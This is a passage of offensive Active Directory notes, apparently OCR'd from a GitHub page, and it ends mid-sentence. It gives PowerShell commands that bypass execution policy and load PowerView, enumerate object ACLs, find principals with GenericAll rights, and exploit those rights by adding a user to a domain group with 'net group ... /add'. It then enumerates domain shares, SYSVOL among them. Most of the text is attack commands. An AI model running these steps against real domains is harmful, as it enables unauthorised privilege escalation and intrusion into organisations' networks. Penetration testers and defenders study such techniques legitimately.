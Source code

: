 ### Enumerate ACEs via _Get-ObjectAcl_

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```

```powershell
Get-ObjectAcl -Identity $USER_NAME
```

The previous command shows us several pieces of information and among the most important we have:
- ObjectSID
- ActiveDirectoryRights
- SecurityIdentifier

To convert the _ObjectSID_ and the _SecurityIdentifier_:

```powershell
Convert-SidToName $SID_NUMBER
```

Command to find objects with _GenericAll_ permission within a specific group:

```powershell
Get-ObjectAcl -Identity "$GROUP_NAME" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

The above command may return several SIDs. To quickly convert them, this command could be used:

```powershell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

If we find a user with elevated privileges, this could be exploited for various purposes.

For example, this user could be added to a group:

```powershell
net group "$GROUP_NAME" $USER_NAME /add /domain
```

## Enumerating Domain Shares

Enumerate shares in the domain with _Find-DomainShare_:

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```

```powershell
Find-DomainShare

Find-DomainShare -CheckShareAccess
```

In the example, we focus on _SYSVOL_, a share used for domain policies and scripts. This can be found here:
